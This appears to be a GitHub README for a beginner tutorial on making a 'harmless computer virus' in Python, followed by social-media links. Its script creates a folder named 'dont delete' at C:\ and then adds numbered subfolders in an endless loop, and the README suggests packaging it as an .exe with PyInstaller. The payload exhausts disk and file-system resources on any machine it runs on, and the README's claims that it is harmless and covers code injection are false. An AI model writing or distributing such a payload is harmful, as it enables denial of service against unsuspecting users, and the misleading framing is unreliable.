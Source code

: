 # Make your won computer virus

In this Project, I will show you how to create a harmless computer virus using Python programming language. This is a beginner-friendly project that will guide you through the process of creating a virus that doesn't cause any harm to your computer but can be a great learning experience. I will cover the basics of Python programming, as well as virus programming concepts such as file manipulation and code injection. Follow along with our step-by-step instructions and create your own virus today!
let's start...............

To make this project you need to follow this step:-










## Installation

Install package with pip

```bash
pip install pyinstaller

# If you want ot convert this code PY file to exe file then need to install this module. 

```
    
## Deployment

To deploy this project run

```bash
# Please Subscribe my youtube channel "Problem Solve with Ridoy"
import os

path = "C:\\"
os.makedirs(f"{path}dont delete")
count = 0
while True:
    os.makedirs(f"{path}dont delete\\{count}")
    count += 1
    print("folder creating")
```






## You can follow me

Facebook:- https://www.facebook.com/problemsolvewithridoy/

Linkedin:- https://www.linkedin.com/in/ridoyhossain/

YouTube:- https://www.youtube.com/@problemsolvewithridoy

Gmail:- entridoy2@gmail.com

If you have any confusion, please feel free to contact me. Thank you


## License
This script is released under the MIT License. Feel free to use, modify, and distribute it as you wish. If you find any bugs or have any suggestions for improvement, please submit an issue or a pull request on this repository.
